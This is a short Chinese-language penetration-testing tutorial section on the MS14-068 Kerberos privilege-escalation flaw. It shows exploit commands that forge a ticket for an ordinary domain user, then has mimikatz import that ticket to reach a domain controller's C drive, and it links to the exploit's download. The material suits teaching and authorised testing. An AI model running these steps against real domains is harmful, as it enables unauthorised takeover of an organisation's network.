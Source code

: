 > 原文：[http://book.iwonder.run/域渗透/4.2.5.html](http://book.iwonder.run/域渗透/4.2.5.html)

### 4.2.5 MS14-068

MS14-068 是一个能够使普通用户提权获取域控权限的权限提升漏洞，微软给出的补丁 是 kb3011780。在 server 2000 以上的域控中，只要没打这个补丁，都有可能被利用。

*   1、 尝试直接访问域控的 C 盘

![image](img/273dc668004db9b4ebee759e1b24f9bf.png)

*   2、使用 ms14-068 的 exp，生成票据

```
C:\Users\jeff1\Desktop>MS14-068.exe -u jeff1@adtest.com -s S-1-5-21-3418659180-3 421952656-1938706522-1109 -d 192.168.19.100 -p test@124 
```

![image](img/205bc97d35a9b8993a0f786a44574095.png)

*   3、 使用 mimilatz 导入生成的 ccache 文件，导入之前 cmd 下使用命令 klist purge 或者在 mimikatz 中使用 kerberos::purge 删除当前缓存的 kerberos 票据

![image](img/6127203e03b47a9b7ace921b7cb39137.png)

导入票据:

```
kerberos::ptc TGT_jeff1@adtest.com.ccache 
```

![image](img/25e9d727d1fc5f69631d4c8a46ccf216.png)

4、 再次访问域控

![image](img/0540b9e1cdd36688f255d830ef528572.png)

MS14-068 下载地址:

[https://github.com/ianxtianxt/MS14-068](https://github.com/ianxtianxt/MS14-068)

